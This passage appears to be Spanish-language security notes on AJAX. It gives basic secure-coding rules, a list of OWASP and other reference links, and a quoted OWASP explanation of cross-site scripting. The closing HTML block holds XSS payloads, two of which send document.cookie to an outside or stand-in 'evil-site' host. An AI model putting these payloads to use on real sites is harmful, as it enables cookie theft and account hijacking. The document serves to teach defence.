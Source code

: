 **Normas básicas**
- Usar `innerText` y no `innerHtml`
- Nunca jamas usar `eval`
- Nunca encriptar en cliente
- No confies en la lógica del front


**Recursos**

- [Is Your Website Hackable?](https://www.acunetix.com/websitesecurity/ajax/)
- [AJAX Security Cheat Sheet](https://www.owasp.org/index.php/AJAX_Security_Cheat_Sheet)
- [Testing for AJAX Vulnerabilities (OWASP-AJ-001)](https://www.owasp.org/index.php/Testing_for_AJAX_Vulnerabilities_(OWASP-AJ-001))
- [Understanding Ajax vulnerabilities](https://www.ibm.com/developerworks/library/wa-vulnerabilities/index.html)
- [JSON Hijacking](https://haacked.com/archive/2009/06/25/json-hijacking.aspx/)
- [Ajax Security Basics](https://www.symantec.com/connect/articles/ajax-security-basics)
- [Top 10 Ajax Security Holes and Driving Factors](https://www.helpnetsecurity.com/2006/11/10/top-10-ajax-security-holes-and-driving-factors/)
- [20 high profile sites vulnerable to XSS attacks](https://www.acunetix.com/blog/news/full-disclosure-high-profile-websites-xss/)


### Seguridad AJAX: Tipos de Ataques

**Cross-site scripting (XSS)**
> Cross-site Scripting (XSS) is a technique by which malicious content is injected in the form of HTML/JavaScript code. XSS exploits can be used for triggering various other attacks like cookie theft, account hijacking, phishing, and denial of service.
> The Browser and AJAX Requests look identical, so the server is not able to classify them. Consequently, it won't be able to discern who made the request in the background. A JavaScript program can use AJAX to request a resource that occurs in the background without the user's knowledge. The browser will automatically add the necessary authentication or state-keeping information such as cookies to the request. JavaScript code can then access the response to this hidden request and then send more requests. This expansion of JavaScript functionality increases the possible damage of a Cross-Site Scripting attack.
> Also, an XSS attack could send requests for specific pages other than the page the user is currently looking at. This allows the attacker to actively look for certain content, potentially accessing the data.
> The XSS payload can use AJAX requests to autonomously inject itself into pages and easily re-inject the same host with more XSS (like a virus), all of which can be done with no hard refresh. Thus, XSS can send multiple requests using complex HTTP methods to propagate itself invisibly to the user. 
> [OWASP](https://www.owasp.org/index.php/Testing_for_AJAX_Vulnerabilities_(OWASP-AJ-001))


```html

<script>alert("howdy")</script>
<script>document.location='http://www.example.com/pag.pl?'%20+document.cookie</script>

<!--
This will just redirect the page to an unknown and malicious page after logging into the original page from where the request was made

http://example.com/login.php?variable="><script>document.location='http://<evil-site>/cont.php?'+document.cookie</script>
-->
```
